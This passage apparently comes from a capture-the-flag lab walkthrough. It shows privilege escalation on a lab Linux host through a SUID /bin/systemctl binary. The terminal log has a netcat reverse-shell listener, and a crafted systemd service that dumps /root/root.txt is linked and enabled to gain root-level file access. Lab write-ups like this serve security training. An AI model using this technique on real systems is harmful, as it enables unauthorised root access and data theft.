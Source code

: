 ```
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

The one file that stands out is /bin/systemctl. Now the next task is totally upon us. To solve this question and get the root flag there is only one source for our help and that is Google. After searching for `systemctl privilege escalation`, we can find results related to [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).

Using GTFOBins for systemctl, exploitation can be performed as:

```
tester@kali:~$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.48.20] from (UNKNOWN) [10.10.222.75] 48674
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:38:12 up 3 min,  0 users,  load average: 0.71, 1.13, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ TF=$(mktemp).service
$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "/root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ sudo systemctl link $TF
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "/root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ ./systemctl link $TF
/bin/sh: 14: ./systemctl: not found
$ TF=$(mktemp).service
$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> 
WantedBy=multi-user.target' > $TF> 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.LQV4ISuo3H.service to /tmp/tmp.LQV4ISuo3H.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.LQV4ISuo3H.service to /tmp/tmp.LQV4ISuo3H.service.
$ cat /tmp/output
```
We need to make some changes to the commands provided in the GTFOBins which are given below:
1. Replace `id` with `cat /root/root.txt` 
2. Executing `/bin/systemctl` instead of `./systemctl` as we are not in `/bin`.

And that is how we get the root flag and solve the room. 



